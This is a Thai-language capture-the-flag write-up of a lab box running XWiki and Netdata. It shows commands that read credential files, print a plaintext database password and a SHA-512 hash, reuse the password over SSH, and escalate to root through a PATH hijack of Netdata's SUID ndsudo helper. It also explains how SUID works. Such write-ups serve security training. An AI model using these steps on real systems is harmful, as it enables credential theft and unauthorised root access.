

https://www.exploit-db.com/exploits/52136


ปรับย่อหน้า,path เพิ่ม busybox


https://www.xwiki.org/xwiki/bin/view/Documentation/AdminGuide/Installation/InstallationWAR/InstallationMySQL/

```
find / -name hibernate.cfg.xml 2>/dev/null
    /etc/xwiki/hibernate.cfg.xml
    /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml
    /usr/share/xwiki/templates/mysql/hibernate.cfg.xml


cat /etc/xwiki/hibernate.cfg.xml | grep password
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>

```


```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mysql:x:115:121:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:998:998:Apache Tomcat:/var/lib/tomcat:/usr/sbin/nologin
xwiki:x:997:997:XWiki:/var/lib/xwiki:/usr/sbin/nologin
netdata:x:996:999:netdata:/opt/netdata:/usr/sbin/nologin
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
_laurel:x:995:995::/var/log/laurel:/bin/false

```
คิดว่า user flag น่าจะเป็น oliver แต่ credential ที่ได้มา xwiki:theEd1t0rTeam99 เป็นของ mysql database

เลยไปค้นใน Database อยู่สักพักใหญ่


https://www.xwiki.org/xwiki/bin/view/Documentation/DevGuide/DatabaseSchema/

ขอบคุณสำหรับ database schema diagram ของ XWiki! นี่แสดงให้เห็นโครงสร้างจริงของการจัดเก็บข้อมูลใน XWiki อย่างชัดเจน

**จากภาพ ERD นี้เห็นได้ว่า:**

**โครงสร้างหลักสำหรับ Users:**
- **xwikidoc** - หน้าหลักของ user (เช่น `XWiki.admin`)
- **xwikiobjects** - XObject instances ของ `XWiki.XWikiUsers` class
- **xwikistrings** - เก็บ string properties รวมถึง **password hash**

**การเก็บ Password:**
Password จะถูกเก็บใน table **xwikistrings** โดย:
```
xwikidoc (user page) 
  → xwikiobjects (XWikiUsers object)
    → xwikiproperties (password property)  
      → xwikistrings (actual password hash)
```

**Tables ที่เกี่ยวข้องกับ User:**
- `xwikidoc`: ข้อมูลพื้นฐานของหน้า user
- `xwikiobjects`: XObject ของ XWikiUsers class
- `xwikistrings`: password hash และ string properties อื่นๆ
- `xwikiproperties`: metadata ของแต่ละ property


select * from xwikistrings;

hash:SHA-512:dac65976a9f09bcd15bd2c5c6eae4c43b06f316be7ae6b191db26580b1211bef:6b8f547e3742e998380da4f9d426773430a7982a946b9bfd94da0d7abe0d472c5ff08fcb8b0a908bc293da82298053ba348872099bd88f059a7838c38b670153 

เจอเพียง hash ของ neal ซึ่งเป็น SHA-512 จึงลอง Password spray ssh oliver:theEd1t0rTeam99 ก่อน


```
oliver@editor:~$ find / -perm -u=s 2>/dev/null
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ioping
/opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1

oliver@editor:~$ ls -la /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
-rwsr-x--- 1 root netdata 200576 Apr  1  2024 /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo

oliver@editor:~$ id
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)

```



which nvme ก็ไม่เจอ

https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93

PoC

As a user that has permission to run ndsudo:

### Place an executable with a name that is on ndsudo’s list of commands (e.g. nvme) in a writable path


test bin file และใน target machine ไม่มี gcc เลย compile เองแล้วเปิด server ให้ wget

## Set the PATH environment variable so that it contains this path , Run ndsudo with a command that will run the aforementioned executable

```
oliver@editor:~/fakebin$ export PATH="/home/oliver/fakebin:$PATH" && /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```


## SUID (Set User ID on Execution)

เมื่อไฟล์ **binary executable** (โปรแกรมที่คอมไพล์แล้ว) มี **SUID bit** ติดอยู่ เวลาที่ **user A** (ที่ไม่ใช่เจ้าของไฟล์) รันไฟล์นี้ มันจะถูก **execute ด้วย effective UID ของเจ้าของไฟล์** (เช่น root) แทนที่จะเป็น UID ของ user A เอง

**SUID ทำงานกับ executables ที่เป็น binary เท่านั้น**
เช่น โปรแกรมที่เขียนด้วย C, C++, Go ฯลฯ ที่ compile เป็น binary แล้ว **ไม่ต้องพึ่ง interpreter** (เช่น Python, Bash script จะไม่สามารถใช้ SUID ได้ง่ายๆ เพราะ interpreter จะ drop สิทธิ์กลับไปเป็น user ปกติ)

---

## system("/usr/bin/id") ทำงานยังไง?

```c
system("/usr/bin/id");
```

* ฟังก์ชัน `system()` จะ **เรียก shell ขึ้นมา (ปกติคือ /bin/sh)** แล้วให้ shell นั้นไปรันคำสั่ง `/usr/bin/id`
* ดังนั้น **สิทธิ์จะขึ้นอยู่กับ shell ด้วย**

  * ถ้า shell ถูก configure ให้ไม่ propagate SUID หรือ security settings (เช่น secure\_path) มันอาจ **drop สิทธิ์ SUID กลับเป็น user ธรรมดา**

---

## รัน `/usr/bin/id` ตรงๆ ดีกว่า

แทนที่จะเรียกผ่าน shell (system()), แนะนำให้ใช้ `exec` family (เช่น `execve`, `execl`, `execvp` ฯลฯ) ไปเรียก `/usr/bin/id` ตรงๆ เลย:

```c
execl("/usr/bin/id", "id", NULL);
```

* การเรียก exec ตรงๆ จะ **ไม่เกี่ยวข้องกับ shell**
* จะไม่โดน shell limitations (เช่น secure\_path หรือ shell dropping SUID)

---

## หรือ ใช้ `getuid()` กับ `geteuid()`

ถ้าแค่อยากเช็คว่าโปรแกรมทำงานด้วยสิทธิ์อะไรอยู่:

```c
printf("UID: %d\n", getuid());
printf("EUID: %d\n", geteuid());
```

* `getuid()` จะคืนค่า **real UID** (คนที่รันโปรแกรม)
* `geteuid()` จะคืนค่า **effective UID** (เช่น root ถ้า SUID ติดไว้)
* แบบนี้ไม่ต้องไปเรียก external command อะไรเลย เพราะ check ได้ตรงๆ จากภายในโปรแกรม C เอง

---


https://www.reddit.com/r/linuxquestions/comments/132v6hy/cant_get_root_access_using_a_suid_binary/


